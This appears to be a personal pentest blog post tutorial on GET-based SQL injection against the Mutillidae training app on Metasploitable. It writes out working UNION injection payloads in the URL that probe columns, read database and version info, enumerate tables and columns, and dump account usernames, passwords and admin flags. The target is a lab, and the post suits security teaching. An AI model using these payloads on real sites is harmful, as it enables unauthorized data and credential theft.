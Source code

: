 +++
tags = ["Pentest", "Web"]
date = "2021-02-14"
title = "SQL Get Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

This can be used when the web is sending information about the user from the databases. If this is done with the GET method we will be able to see the information displayed on the URL. There is where we will modify it. 



We are working with Mutillidae on Metasploitable. There's a page in which if you fill up your user and password it answers you with your user info. The output isw something like this:

*Username* = nazori

*Password* = jeje

*Signature*= lol

The URL will be like this one: 

```
http://10.0.2.4/mutillidae/index.php?page=user-info.php&username=nazori&password=jeje&user-info-php-submit-button=View+Account+Details
```

## Checking vulnerability

First of all, let's ensure that the vulnerability exists. We will try to order by a number of column that is ridiculus `order by 1000#`. We insert this on the URL request, after the first input. `#` is replaced by `%23` in html.

```
http//...
&username=nazori'order by 1000%23&...
```

If we get an SQL related error after this, it is vulnerable.

## Reading the database information

Following the previous example, we are now to determine the number of columns existing on the current database. For this we just have to try and error until we no longer get an error. In this case it is 5.

Now we use the UNION function on the SQL request. The UNION operator is used to combine the result-set of two or more SELECT statements. Replace the `'order by 5 #` for `'union select 1,2,3,4,5`. 

```
http//...
&username=nazori'union select 1,2,3,4,5%23&...
```

* Output

*the previous output plus*
 

*Username* = 2

*Password* = 3

*Signature*= 4

Now we know that we can write on those columns (2,3,4). We are now replacing the number on the request by functions that can give us some info.

```
http//...
&username=nazori'union select 1,database(),user(),version(),5%23&...
```
* Output
  
*Username*=owasp10

*Password*=root@localhost

*Signature*=5.0.51a-3ubuntu5

## Finding database tables

To find the infromation about the rests of the tables we are going to look for `information_schema.tables`. The information schema is an ANSI-standard set of read-only views that provide information about all of the tables, views, columns, and procedures in a database. 

```
http//...
&username=nazori'union select 1,table_name,null,null,5 from information_schema.tables%23&...
```
We would get an enormous amount of table names. We may not be interested in this, so we can filter it with `WHERE table_schema = 'owasp10'` which is the name of the current web app.

The output are 7 different table names.


## Data extraction

We are going to focus on the table named `accounts`. Request the column names to see whats inside the table.

```
http//...
&username=nazori'union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'%23&...
```
* Output
  
 `cid username password mysignature is_admin` 

Now that we know the names of the columns we can ask for specific info inside the columns.

```
http//...
&username=nazori'union select 1,username,password,is_admin,5 from accounts%23&...
```

